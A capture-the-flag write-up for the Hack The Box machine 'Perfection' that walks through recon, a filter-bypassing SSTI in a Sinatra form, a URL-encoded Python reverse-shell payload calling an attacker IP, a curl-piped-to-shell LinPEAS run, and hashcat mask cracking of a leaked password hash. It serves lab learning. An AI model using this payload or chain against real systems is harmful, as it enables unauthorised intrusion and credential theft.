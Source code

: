 # Perfection

A writeup for the machine [Perfection](https://app.hackthebox.com/machines/Perfection) on Hack The Box.

<Image src={require("./banner.png").default} height="500" />

## Footprinting

### Nmap scan

Firstly, we can start with a nmap scan.

We find two open ports with one web servers publicly accessible.

```bash
nmap -sS <HOST>
```

```
22 -> SSH
80 -> HTTP
```

<Image src={require("./nmap.png").default} />

### Web server

The web server is running a simple website with an home page and a weight calculator form.

<Image src={require("./homepage.png").default} />

<Image src={require("./calculator.png").default} />

We can try to fuzz the website to find hidden directories.

```bash
gobuster dir -u http://<HOST> -w /usr/share/wordlists/dirb/common.txt
```

No hidden directories are found.

If we open a 404 page, we can see that the server is running `Sinatra`, a Ruby web framework.

<Image src={require("./sinatra.png").default} />

## User flag

### Weight calculator

The only interesting thing we can find is the weight calculator form.

We can try to test it with Burp Repeater to see if it's vulnerable.

It is required to insert an overall weight of 100 otherwise a block message is shown.

If correct weights are inserted, with categories and grades as alphanumeric characters, the application shows a message with the data inserted.

<Image src={require("./burp-repeater.png").default} />

### SSTI

This last test is interesting because it seems that the application is vulnerable to Server-Side Template Injection (SSTI).

Special characters are not allowed but still the form seems vulnerable to SSTI.

By looking online, we can find that %0A is a newline character and can be used to bypass the filter.

After that, we have to urlencode the payload and insert it in the form.

<Image src={require("./burp-ssti.png").default} />

### Reverse shell

To get a reverse shell, we can use the following payload.

```
category1=A%0A
%3C%25=%20system(%22whoami%22)%20%25%3E
%3C%25=%20%60python3%20-c%20'import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.155%22,1337));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)'%60%20%25%3E
&grade1=11&weight1=20&category2=2&grade2=11&weight2=20&category3=3&grade3=11&weight3=20&category4=4&grade4=11&weight4=20&category5=5&grade5=11&weight5=20
```

<Image src={require("./cyberchef.png").default} />

<Image src={require("./rev-shell.png").default} />

## Root flag

### Users database

Inside the home directory of Susan there is the source code of the web application and a folder called migration.

In the latter, we can find a Sqlite database file.

<Image src={require("./database.png").default} />

The database contains only a table with some users and their hashed passwords.

```bash
strings pupilpath_credentials.db
```

<Image src={require("./password.png").default} />


### First cracking attempt

The hashing algorithm used for the password seems SHA-256.

However, cracking the password with common wordlists does not give any result.

```bash
hashcat -m 1430 -a 0 -oabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f /usr/share/wordlists/rockyou.txt
```

### Scan with LinPEAS

We can try to scan with LinPEAS to find interesting files and configurations.

```bash
# In the host
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
python3 -m http.server
```

```bash
# In the target
curl IP:PORT/linpeas.sh | sh
```

<Image src={require("./linpeas.png").default} />

There is a mail file for Susan accessible both by the user and the root.

```bash
cat /var/mail/susan
```

<Image src={require("./mail.png").default} />

### Cracking the password

Inside we find the correct password format.

```
{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

susan_nasus_ddddddddd
```

It is possible to use Hashcat with a specific mask to crack the password.

```sh
hashcat -a 3 abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f susan_nasus_?d?d?d?d?d?d?d?d?d -m 1400
```

<Image src={require("./hashcat.png").default} /> 

We can now login through SSH as Susan and retrieve the root flag by switching to the root user.

```bash
ssh susan@MACHINE_IP
# ...
sudo su
```

